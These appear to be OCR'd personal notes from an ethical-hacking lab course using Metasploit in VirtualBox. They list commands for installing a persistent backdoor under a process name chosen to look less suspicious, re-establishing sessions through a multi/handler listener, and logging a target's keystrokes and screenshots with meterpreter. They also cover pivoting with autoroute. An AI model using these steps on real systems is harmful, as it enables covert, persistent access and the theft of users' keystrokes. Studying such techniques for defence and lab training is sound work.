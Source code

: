 - set EXE.NAME browser.exe <Here is the name that will appear on the processes, like this is less suspicious>
    
- set SESSION 1 <Select session where is the target>
    
- show advanced
    
- set EXE::Custom /var/www/html/backdoor.exe <Payload that is going to be injected>
    
- show advanced
    
- exploit
    
- sessions -K //Kill all sessions to test the reconnection 
    
- use exploit/multi/handler 
    
- exploit // If everything is correct this will reconnect with the target computer because we already made an injection 
    

When it works, it will give you a link that can be used to clean the target computer

  

Log all mouse and keyboard events

- Open connected session with meterpreter
    
- keyscan_start
    
- keyscan_dump
    
- keyscan_stop
    
- screenshot // Takes a screenshot
    

  

Pivoting

Use a hacked device as a pivot to access other devices in the network. An example is when you connect to a target and the other device you want to access is in another network and you don’t know their IP.

To test

- Go to virtual box and create another NAT network clicking on the plus symbol
    
- Change the CIDR and name
    
- Connect the first target - the window machine - to both networks
    
- Connect the Kali to one network and the other device to the other
    
- To verify if everything is set correctly, the windows machine should be able to ping both the other machines
    
- Now you just need to upload the needed files from the kali machine to the windows machine and from there execute the commands on the terminal as shown previously to attack the other device
    

  

But how to set a route between the hacked computer and your computer so you can use any module on the new devices? To do this, you use a module called autoroute
